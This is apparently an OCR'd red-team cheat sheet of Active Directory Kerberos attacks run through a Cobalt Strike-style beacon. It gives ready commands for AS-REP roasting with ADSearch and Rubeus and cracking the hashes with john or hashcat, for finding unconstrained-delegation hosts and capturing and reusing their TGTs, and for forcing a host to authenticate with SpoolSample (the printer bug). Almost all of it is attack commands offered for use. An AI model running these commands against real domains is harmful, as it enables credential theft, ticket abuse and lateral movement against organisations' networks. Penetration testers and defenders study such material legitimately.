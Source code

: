 ### ASEP Roast

Find the account to roast

```
execute-assembly C:\Tools\ADSearch\ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

Start roasting

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asreproast /user:<USER> /nowrap
```

Use `--format=krb5asrep --wordlist=wordlist svc_oracle` for **john** or `-a 0 -m 18200 svc_oracle wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5asrep --wordlist=wordlist <USER>
```

### Unconstrained Delegation

```
execute-assembly C:\Tools\ADSearch\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

Monitor for a specific TGT while on a server with unconstrained delegation

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe monitor /targetuser:<USER> /interval:10
```

save ticket

```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\user.kirbi", [System.Convert]::FromBase64String("..."))
```

Use ticket

```
 make_token DOMAIN\USER Password

 kerberos_ticket_use C:\Users\Administrator\Desktop\user.kirbi
```

#### Printer Bug

Monitor for a specific ticket from a server with unconstrained delegation

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe monitor /targetuser:<TARGET>$ /interval:10 /nowrap
```

Force cohorsion with another wks

```
execute-assembly C:\Tools\SpoolSample\SpoolSample.exe <TARGET> <Unconstrained Host>
```

